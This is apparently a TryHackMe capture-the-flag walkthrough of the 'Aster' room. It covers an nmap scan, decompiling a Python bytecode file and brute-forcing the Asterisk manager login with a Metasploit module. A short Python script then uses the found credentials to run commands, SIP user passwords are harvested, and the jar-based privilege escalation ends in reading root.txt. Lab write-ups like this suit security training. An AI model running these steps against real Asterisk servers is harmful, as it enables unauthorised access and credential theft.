 ```yaml
---
date: 2025-02-12
categories: [CTF, THM]
title: "THM - Aster"
tags: ['nmap', 'privilege escalation', 'python', 'rce', 'tryhackme', 'hackthebox', 'immersivelabs', 'thm', 'iml', 'htb']

description: "Aster - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# THM - Aster

```bash
nmap -A -v -p- -T4 10.10.45.105
```

![image1](../resources/913e2d8a78c0405dba3662758f8b2d29.png)


![image2](../resources/2e8f26d7b8a44b8db511901a9165c274.png)

Download .pyc file (Python byte compiled file)

Running file on it shows the python version

![image3](../resources/239c66355ed441ab982ba8a553a5ad80.png)

Decompile it with a decompiler like **uncompyle6**:

![image4](../resources/021ca545b7d843fd8189183db1b2b2b8.png)


![image5](../resources/fc51fb8aded341c8b4b1f45ae0b5e143.png)

Change it:

![image6](../resources/7a22f52f393845c18807155054127e15.png)

<u>Output:</u>
Good job, user "**admin**" the **open source framework for building communications**, installed in the server.
Good job reverser, python is very cool!Good job reverser, python is very cool!Good job reverser, python is very cool!

**<u>Exploit:</u>**
<https://www.hackingarticles.in/penetration-testing-on-voip-asterisk-server-part-2/>

```bash
msfconsole
use auxiliary/voip/asterisk_login
```

![image7](../resources/7f606ac500ae490bb472a031a910005f.png)

User: "**admin**"
Pass: "**abc123**"

- Tried using telnet and nc but didn't work

- Use the asterisk library in Python to connect to it:

```python
from asterisk.ami import AMIClient, SimpleAction

# Connect to Asterisk Manager
client = AMIClient(address='10.10.98.61', port=5038)
client.login(username='admin', secret='abc123')

# Specify the Asterisk CLI command you want to execute
cli_command = 'help'

# Send a 'Command' action with the specified command
response = client.send_action(SimpleAction('Command', Command=cli_command))
print(response.get_response())

# Logout and close the connection
client.logoff()

```

![image8](../resources/de34f7f9f13c453589100fae7dab3efd.png)


![image9](../resources/f290b8520ce44a1a9a900b28fcbc9506.png)

Action: command
Command: sip show users


![image10](../resources/96765dcf7b7b48eab8b4579651707bef.png)


![image11](../resources/8591dbd5434246b1a52a036fa03d0a54.png)

We get the creds:
**harry : p4ss#w0rd!#**

<u>Enumerating Specific User</u>

Action: command
Command: sip show peer harry


![image12](../resources/030ea2abc7034d079078abf32cc4596e.png)

- SSH onto the box with the credentials

![image13](../resources/66dbd9d9a47e4e5ab2c67d1914a44f8e.png)

**<u>Priv Esc:</u>**

- Use python -m http.server on the target machine to copy over Example.Root.jar

```bash
jar -xf Example_root.jar

```

![image14](../resources/18be5c0c3af84eeda1b0ad0cecc83411.png)


![image15](../resources/49e7f30c1067441282dad3362f459aea.png)

Download Java Decompiler - <https://java-decompiler.github.io/>

Open Example_Root.class in the decompiler


![image16](../resources/ef88536f1cc84ae1b7bc7f9994146da5.png)

```bash
touch /tmp/flag.dat
```

![image17](../resources/66f8e3270f614bc69dbd5b9c91ac81a7.png)


![image18](../resources/2824c192eba843c5bd1a9119334e3fd3.png)

```bash
cat root.txt

```